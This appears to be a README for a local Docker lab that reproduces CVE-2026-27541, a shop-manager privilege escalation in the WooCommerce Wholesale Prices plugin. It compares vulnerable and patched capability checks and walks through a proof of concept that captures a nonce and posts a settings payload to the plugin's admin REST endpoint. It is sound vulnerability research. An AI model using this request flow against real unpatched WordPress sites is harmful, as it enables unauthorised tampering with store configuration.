

# CVE-2026-27541 — WooCommerce Wholesale Prices Authenticated Privilege Escalation Lab



## Overview

This project is a local Docker lab for analyzing and reproducing the behavior of **CVE-2026-27541** in the **WooCommerce Wholesale Prices / Wholesale Suite** plugin by comparing **vulnerable** and **patched** builds side-by-side on the same machine.

The core issue is **Broken Access Control** in the following REST API endpoint:

```text
/wp-json/wwp/v1/admin/save
```

Based on the source code used in this lab, that route already has a `permission_callback` in both the vulnerable and patched builds. However, the affected version uses a capability check that is too broad for an admin settings write action:

* **vulnerable (`2.2.6`)** → `current_user_can( 'manage_woocommerce' )`
* **patched (`2.2.7`)** → `current_user_can( 'manage_options' )`

In this lab, the user `shopmgr`, which has the `shop_manager` role, has `manage_woocommerce=true` but not `manage_options`. As a result, this low-privilege user can use a valid logged-in session plus a valid `X-WP-Nonce` to invoke the admin settings save endpoint on the vulnerable build, while the patched build returns `403 rest_forbidden` for the same request.

---

## What this lab proves

* **Vulnerable node (`2.2.6`)**: the user `shopmgr` can successfully call `POST /wp-json/wwp/v1/admin/save` and modify plugin settings.
* **Patched node (`2.2.7`)**: the same request from `shopmgr` is rejected with `403`.
* **No-auth request**: if the endpoint is called directly without authentication, both builds return `403`, which is consistent with this being a **post-authentication privilege escalation** issue.
* **Persistence proof**: after a successful PoC run, the vulnerable build stores the WordPress option `wwp_see_wholesale_prices_replacement_text=PWNED_BY_POC`, while the patched build still returns `See wholesale prices`.

---

## Lab Topology

### Services

* `vuln` → WordPress + WooCommerce + WooCommerce Wholesale Prices `2.2.6`
* `patched` → WordPress + WooCommerce + WooCommerce Wholesale Prices `2.2.7`
* `db-vuln` / `db-patched` → separate MariaDB databases
* `seed-vuln` / `seed-patched` → `wp-cli` seed jobs that install WordPress, install the plugin, create users, and create a product for testing

### Published ports

* `http://localhost:8081` → vulnerable
* `http://localhost:8082` → patched

### Base images

* WordPress: `wordpress:6.8.1-php8.2-apache`
* MariaDB: `mariadb:11.4.5`
* Seeder: `wordpress:cli-php8.2`

---

## Repository Layout

```text
.
├── docker-compose.yml
├── README.md
├── patched/
│   └── Dockerfile
├── vuln/
│   └── Dockerfile
├── scripts/
│   └── seed-wp.sh
└── poc.py
```

### Important files

* `docker-compose.yml` — defines the vulnerable and patched stacks with separate databases
* `scripts/seed-wp.sh` — installs WordPress, WooCommerce, the target plugin, and creates test users and product data
* `poc.py` — least-harm PoC for login, nonce extraction, and REST endpoint invocation

---

## Seeded Environment

Once the stack is ready, the seed script creates the following:

### Users

* `admin` / `AdminPass!234`
* `shopmgr` / `ShopMgrPass!234`

### Product

* slug: `lab-product`
* regular price: `100`
* wholesale price: `50`

### Versions

* WooCommerce: `10.6.0`
* WooCommerce Wholesale Prices:

  * vulnerable: `2.2.6`
  * patched: `2.2.7`

The script also writes `lab-secrets.json` into each WordPress container so the seeded data and version information can be verified.

---

## Why the PoC is least-harm

This PoC does not attempt to take over the site, change roles, install plugins, or execute a shell.

It only does the following:

1. logs in as `shopmgr`
2. visits the relevant admin page to extract `wpApiSettings.nonce`
3. sends a request to the target endpoint
4. changes an easily observable setting value:

```text
wwp_see_wholesale_prices_replacement_text = PWNED_BY_POC
```

This setting is used as an observable marker to demonstrate that a low-privilege user can modify admin-only configuration.

---

## Vulnerability Summary

### Affected component

* Plugin: **WooCommerce Wholesale Prices / Wholesale Suite**
* Route: `POST /wp-json/wwp/v1/admin/save`

### Vulnerability class

* **Broken Access Control**
* **Authenticated Privilege Escalation**

### Practical meaning

Although the endpoint requires a valid session and nonce, the vulnerable version still allows a low-privilege user such as `shopmgr` with the `shop_manager` role to invoke an endpoint that should be admin-only.

### Important nuance

This is **not** an unauthenticated vulnerability.

If the endpoint is called directly without a logged-in session, both the vulnerable and patched builds reject the request. The bug exists in **authorization after authentication**, not in authentication itself.

---

## Root Cause Analysis

The vulnerable version is not missing a `permission_callback`. The flaw is that it uses a capability check that is too broad (`manage_woocommerce`) for a REST action that writes admin-side settings.

From the source code in `includes/class-wwp-admin-settings.php`:

* both the vulnerable and patched builds register the same route: `POST /wp-json/wwp/v1/admin/save`
* both builds route it to `save_registered_settings()`
* both builds use `permission_admin_check()` as the `permission_callback`
* **the real difference is the capability being checked**

### Vulnerable (`2.2.6`)

```php
if ( ! current_user_can( 'manage_woocommerce' ) ) {
    return new WP_Error( 'rest_forbidden', ... );
}
```

### Patched (`2.2.7`)

```php
if ( ! current_user_can( 'manage_options' ) ) {
    return new WP_Error( 'rest_forbidden', ... );
}
```

In this lab, the user `shopmgr`, which has the `shop_manager` role, has `manage_woocommerce=true` but not `manage_options`, so it passes the vulnerable check but fails the patched one.

### What changed in patched behavior

The patched version does more than change the response from `200` to `403`. It changes the access-control logic by tightening the capability requirement from `manage_woocommerce` to `manage_options`.

In addition, the save path in the patched build is further hardened by moving away from prefix-based filtering toward explicit allowlists and stronger sanitization.

### Why the PoC succeeds on vulnerable

The PoC follows the same flow as a real browser context:

* log in as `shopmgr`
* open the plugin settings page
* extract `wpApiSettings.nonce`
* call `POST /wp-json/wwp/v1/admin/save`

Because the vulnerable build allows users with `manage_woocommerce` to invoke this settings write action, the request succeeds and results in a persistent option change.

### Security lesson

A `nonce` helps protect against CSRF, but it is **not** an authorization control.

Having a valid session and a valid nonce does not mean a user should be allowed to perform an admin action. Using an overly broad capability on a privileged endpoint is enough to create a low-privilege authorization bypass.

---

## Reproducing the Lab

### Prerequisites

* Docker Desktop / Docker Engine
* Docker Compose v2
* Python 3
* Internet access for the initial image and plugin downloads

### 1) Start the lab

```bash
docker compose up -d --build
```

### 2) Confirm containers are up

```bash
docker compose ps
```

You should see at least:

* `cve-2026-27541-vuln-1`
* `cve-2026-27541-patched-1`
* `cve-2026-27541-db-vuln-1`
* `cve-2026-27541-db-patched-1`

### 3) Watch the seeding logs

```bash
docker compose logs -f seed-vuln seed-patched
```

### 4) Inspect seeded metadata

```bash
docker compose exec vuln cat /var/www/html/lab-secrets.json
docker compose exec patched cat /var/www/html/lab-secrets.json
```

---

## PoC Walkthrough

`poc.py` works as follows:

1. `GET /wp-login.php`

2. `POST /wp-login.php` to establish an authenticated session

3. open the plugin admin page:

   ```text
   /wp-admin/admin.php?page=wholesale-settings&tab=wholesale_prices
   ```

4. extract `wpApiSettings.nonce` and the REST root from the HTML/JavaScript

5. send a request to:

   ```text
   /wp-json/wwp/v1/admin/save
   ```

6. submit the payload:

```json
[
  {
    "key": "wwp_see_wholesale_prices_replacement_text",
    "value": "PWNED_BY_POC"
  }
]
```

---

## Run the PoC

### Vulnerable node

```bash
python3 poc.py \
  --base-url http://localhost:8081 \
  --username shopmgr \
  --password 'ShopMgrPass!234'
```

### Patched node

```bash
python3 poc.py \
  --base-url http://localhost:8082 \
  --username shopmgr \
  --password 'ShopMgrPass!234'
```

---

## Expected Results

### Vulnerable (`8081`)

Expected output:

```text
[+] Base URL: http://localhost:8081
[+] Username: shopmgr
[+] Logged in successfully
[+] Accessed admin page: http://localhost:8081/wp-admin/admin.php?page=wholesale-settings&tab=wholesale_prices
[+] Using wpApiSettings nonce
[+] Nonce: b6b6add11b
[+] REST root: http://localhost:8081/wp-json/
[+] Sending payload to: http://localhost:8081/wp-json/wwp/v1/admin/save
[+] HTTP status: 200
{"status":"success","message":"Settings saved successfully."}
[+] PoC SUCCESS (pwnd)
[*] Verify via incognito (not logged in):
    - Open product page
    - Look for: PWNED_BY_POC
```

### Patched (`8082`)

Expected output:

```text
[+] Base URL: http://localhost:8082
[+] Username: shopmgr
[+] Logged in successfully
[+] Accessed admin page: http://localhost:8082/wp-admin/admin.php?page=wholesale-settings&tab=wholesale_prices
[+] Using wpApiSettings nonce
[+] Nonce: 5c4ef2ac6f
[+] REST root: http://localhost:8082/wp-json/
[+] Sending payload to: http://localhost:8082/wp-json/wwp/v1/admin/save
[+] HTTP status: 403
{"code":"rest_forbidden","message":"You do not have permission to save data.","data":{"status":403}}
[-] PoC failed
```

---

## Manual Verification

### UI verification

After the PoC succeeds on the vulnerable node:

1. log out or open an incognito window
2. open the product page or storefront page that displays the replacement text
3. look for:

```text
PWNED_BY_POC
```

---

## Security Impact

The practical impact of this bug class is that a low-privilege user can modify configuration that should be admin-only, which can directly lead to:

* content tampering
* frontend message manipulation
* business logic abuse

This lab intentionally uses a safe and observable payload in order to avoid role changes or any escalation beyond what is needed to prove the vulnerability condition.

---

## Cleanup

```bash
docker compose down -v
```

---

## Safety Notes

* For local lab use only
* All services are bound to `localhost` only
* The PoC is intentionally least-harm and uses a harmless observable value
* Do not adapt this PoC for use against systems you do not own or have permission to test

---

## References

* [CVE Record — CVE-2026-27541](https://www.cve.org/CVERecord?id=CVE-2026-27541)
* [Wordfence — Wholesale Suite <= 2.2.6 - Authenticated (Shop Manager) Privilege Escalation](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/woocommerce-wholesale-prices/wholesale-suite-221-authenticated-shop-manager-privilege-escalation)
* [WordPress.org Plugin Page — Wholesale Suite – B2B, Dynamic Pricing & WooCommerce Wholesale Prices](https://wordpress.org/plugins/woocommerce-wholesale-prices/)

---

## TL;DR

This lab shows that **CVE-2026-27541** is an **authenticated low-privilege authorization bypass** in the plugin’s REST API settings endpoint. The flaw in version `2.2.6` is not the absence of a permission check, but the use of an overly broad capability (`manage_woocommerce`) for an action that should be restricted at the `manage_options` level.

In this local environment:

* `shopmgr` passes the vulnerable check and can successfully modify admin-side settings through `POST /wp-json/wwp/v1/admin/save`
* the same request is blocked on `2.2.7`
* the vulnerable build persists `PWNED_BY_POC` in the target option, while the patched build does not

As a result, this repository serves as both behavioral proof and code-backed proof of the vulnerable vs. patched difference in a fully controlled local environment.
